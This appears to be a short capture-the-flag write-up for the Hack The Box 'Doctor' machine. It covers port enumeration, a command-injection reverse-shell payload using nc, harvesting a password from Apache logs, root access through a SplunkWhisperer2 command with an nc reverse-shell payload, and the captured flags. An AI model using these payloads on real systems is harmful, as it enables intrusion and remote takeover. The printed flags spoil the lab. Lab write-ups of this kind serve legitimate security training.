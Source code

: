 <pre>
Machine IP: 10.10.10.209

Enum:
    Open ports:
22/tcp   open  ssh      
80/tcp   open  ssl/http Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd


Go to the /etc/hosts and add:
    10.10.10.209    doctors.htb
http://doctors.htb/login?next=%2F => login page

    Go to register and create an account!
Go to new message change title with a new one and go for reverse shell:
    <im g src=http://boxip/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'attackbox'$IFS’attaport')>
    $ nc -lvnp 9003


User flag:
$ cd    /var/log/apache2
$ backup
$ grep -r password?email
    *backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
$su shaun
$ password: Guitar123
User flag: /home/shaun

Priv Esc:
    *First download https://github.com/cnotin/SplunkWhisperer2 from git on your machine
    ! Make a nc listener 

    $ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.89 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '10.10.14.89' '9002'"

    And got root!


User Flag: 006485ecedf8ff72b584ca87e57c0532
Root Flag: 267ebad127e4cc676902b28cfb61a711
</pre>

